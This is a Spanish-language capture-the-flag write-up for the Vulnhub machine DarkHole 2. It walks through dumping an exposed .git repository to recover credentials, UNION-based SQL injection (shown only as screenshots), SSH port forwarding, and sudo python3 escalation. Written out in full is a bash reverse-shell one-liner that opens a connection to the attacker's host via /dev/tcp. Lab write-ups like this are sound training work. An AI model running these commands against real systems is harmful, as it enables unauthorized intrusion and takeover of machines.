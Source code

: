 ```yaml
---
layout: single
title: DarkHole 2 - Vulnhub
excerpt: "Para resolver esta máquina nos dimos cuenta qué a la hora del escaneo con Nmap nos reportó que el repositorio .Git estaba expuesto, nos aprovechamos de esto para ver los commit's, en unos de los commits obtendríamos credenciales en texto claro para acceder en la página Web como el desarrollador Web, posterior a ello llevamos a cabo un SQLI basada en UNION para obtener credenciales SSH, una vez dentro podíamos ver el historial descubriendo así servicio web internos de los cuales abusamos para convertinos en usuario privilegiado."
date: 11/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Information Leakage
  - GitHub Project Enumeration > creds
  - SQLI
  - ssh (Remote Port Forwarding)
  - abusing Internal Web Server
  - bash History - Information Leakage
  - abusing sudoers
---
```


Para resolver esta máquina nos dimos cuenta qué a la hora del escaneo con Nmap nos reportó que el repositorio .Git estaba expuesto, nos aprovechamos de esto para ver los commit's, en unos de los commits obtendríamos credenciales en texto claro para acceder en la página Web como el desarrollador Web, posterior a ello llevamos a cabo un SQLI basada en UNION para obtener credenciales SSH, una vez dentro podíamos ver el historial descubriendo así servicio web internos de los cuales abusamos para convertinos en usuario privilegiado.


# PortScan
____

```
# Nmap 7.93 scan initiated Sat Nov 11 10:30:18 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.160
Nmap scan report for 192.168.204.160
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57b1f564289891516d70766ea552435d (RSA)
|   256 cc64fd7cd85e488a289891b9e41e6da8 (ECDSA)
|_  256 9e7708a4529f338d9619ba757127bd60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   192.168.204.160:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-title: DarkHole V2
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:DB:9D:4B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 11 10:30:25 2023 -- 1 IP address (1 host up) scanned in 7.00 seconds
```


Vemos qué está expuesto el repositorio **Git**

# WebSite
___


![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111125625.png)


No vemos nada sospechoso de primera, así qué procedemos a obtener el repositorio **Git** qué nos reportó el **Nmap** en local, con la herramienta [Git-Dumper](https://github.com/arthaud/git-dumper) para obtener lo qué parece ser el código fuente & ver sí podemos aprovecharnos de algo.
```bash
 ./git_dumper.py http://192.168.204.160/.git ~/192.168.204.160
```

Teniendo así en local el repositorio .**GIT.**

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111130205.png)
Otra forma de obtener los recursos **.git** en local, es con "wget".
```bash
wget -r http://192.168.204.160/.git/
```

Sí leemos el "**COMMIT_EDITMSG**" vemos qué se hizo un commit con nombre "**i changed login.php file for more secure**", así que podríamos tratar de ver como era el **login.php** antes del commit, logrando así verlo como era antes.

1. Vemos los log's commits hechos.
```bash
git log
```
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111131806.png)
Este commit tiene mala apariencia, porque aparentemente agregaron el login.php con las credentials default.

2. Entramos al commit qué nos interesa.
```bash
git show a4d900a8d85e8938d3601f3cef113ee293028e10
```

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111131937.png)

Logrando ver así las credenciales default en texto claro.


Probamos loguearnos con estas credenciales en el sitio web.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132127.png)


# SQL Injection
____



![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132136.png)

Hemos entrado como el usuario **Jehad Alqurashi**, qué aparentemente es desarollador web.

Buscando vulnerabilidades o de qué podríamos aprovecharnos de primera no encontré nada, pero fijandome en la **URL** ví qué probablemente sea vulnerable a **Inyecciones SQL**, así qué empiezo probando con un **sleep**.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132414.png)

Logrando así que dure 5 segundos en responder, esto confirmándonos que esta página es vulnerable a **Inyecciones SQL**, así que podríamos intentar ver credenciales de las base de datos de la página web.

1. Identificamos el número de columnas
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132945.png)

2. Vemos las bases de Datos existentes.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133102.png)

3. Ver tablas existente de la DB qué nos interesa.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133205.png)

4. Ver columnas de la tabla que nos interesa.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133410.png)

5. Ver contenido de las columnas qué nos interesan.
![](Pasted image 20231111133551.png)

Obteniendo así lo qué parece ser credenciales para conectarnos a través de SSH.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133724.png)
___


# Escalada de Privilegios #1
____



Indagando, descubrimos qué el historial no tiene un enlace simbólico al **"/dev/null"**, por lo qué podríamos tratar de ver sí contiene algo de lo que podrimos aprovecharnos.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111134155.png)

Encontramos qué local de la máquina por el puerto **:9999** sé está usando un código para mediante los parámetros "**?cmd=**'" indicar qué comandos se quieren ejecutar.

De primera pienso que eso lo ejecuta el mismo usuario del sistema "**jehad**", pero para corroborarlo hago un **Remote Port Forwarding** para que el **:9999** de la máquina víctima sea el **:9999** de mi máquina, esto a través de SSH tal que así.
```bash
ssh jehad@192.168.204.160 -L 9999:127.0.0.1:9999
```

De forma qué entro al 9999 en local, y utilizó los parámetros que nos chivó el historial de Bash, ejecutando un "whoami"
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111141545.png)

Para mi sorpresa, el **RCE** lo ejecuta el usuario "**losy**", por lo qué se me ocurre migrar a este usuario mediante una **Reverse Shell,** esto a ver sí encontramos otra forma de migrar a ROOT.

```bash
http://localhost:9999/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.204.130/443 0>%261"
```

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111141841.png)

Ahora quedaría darle **Tratamiento a la TTY**, sino sabemos como te recomiendo [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

________

# Escalada de Privilegios #2
____


Estando como "**Losy**", también podemos ver el historial de Bash, así qué echándole un ojo encontraríamos las credenciales de la misma **Losy**.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111142208.png)

Por lo qué se me ocurre ver los permisos **SUDOERS**.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111142324.png)

Encontraríamos que tenemos permisos **SUDOERS** como ROOT para python3, por lo qué podríamos aprovecharnos de esto para escalar nuestro privilegio.

1. Abrimos Python3 como Root.
```bash
sudo /usr/bin/python3
```

2. Colocamos las siguientes líneas:
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111142707.png)
